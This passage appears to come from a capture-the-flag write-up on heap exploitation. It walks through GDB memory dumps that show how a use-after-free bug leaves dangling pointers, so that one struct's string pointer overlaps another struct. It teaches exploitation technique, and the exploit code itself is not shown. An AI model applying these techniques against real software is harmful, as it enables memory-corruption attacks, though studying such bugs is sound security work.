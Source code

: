 > Details on this code is in the Exploit section below, for now, just go with it...

At this point, let's examine the heap from GDB:

```
gef➤  x/10g &data_storage
0x404040 <data_storage>:	0x5555557f7ae0	0x5555557f7770
0x404050 <data_storage+16>:	0x5555557f7820	0x5555557f78d0
0x404060 <data_storage+32>:	0x5555557f7980	0x5555557f7a30
0x404070 <data_storage+48>:	0x5555557f7ae0	0x5555557f7b90
0x404080 <data_storage+64>:	0x5555557f7c40	0x5555557f7cf0
```

`data_storage` is an array of pointers pointing to the allocated `safe_string` structs on the heap.  Because of the bug(s) not setting the pointers to `NULL` on `free`, we have 10 pointers we can explore.  The first (zeroth):

```
gef➤  x/2gx 0x5555557f7ae0
0x5555557f7ae0:	0x0000000000000100	0x00005555557f7b90
```

This looks correct for index 0.  The first 8 bytes is the size we requested from the `create(0, 0x100, cyclic(0x100))` statement.  The second 8 bytes is the pointer to the cyclic generated string:

> The astute may notice that the index 0 `string` pointer is pointing to the index 7 `safe_string` structure.

```
gef➤  x/1s 0x00005555557f7b90
0x5555557f7b90:	"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
```

Yep, looks like `cyclic` garbage to me.

What does index 1 look like?

```
gef➤  x/2gx 0x5555557f7770
0x5555557f7770:	0x00005550002a2137	0x0148e57812b2cf1f
```

Not our garbage.  Actually it looks like the results of the `free` operation.  You may want to explore the heap before and after the free loop to get a better understanding.

As we keep checking each struct one by one we'll eventually land on one (index 7 to be specific) with something that looks like ASCII:

```
gef➤  x/2gx 0x5555557f7b90
0x5555557f7b90:	0x6161616261616161	0x6161616461616163
gef➤  x/1s 0x5555557f7b90
0x5555557f7b90:	"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
```
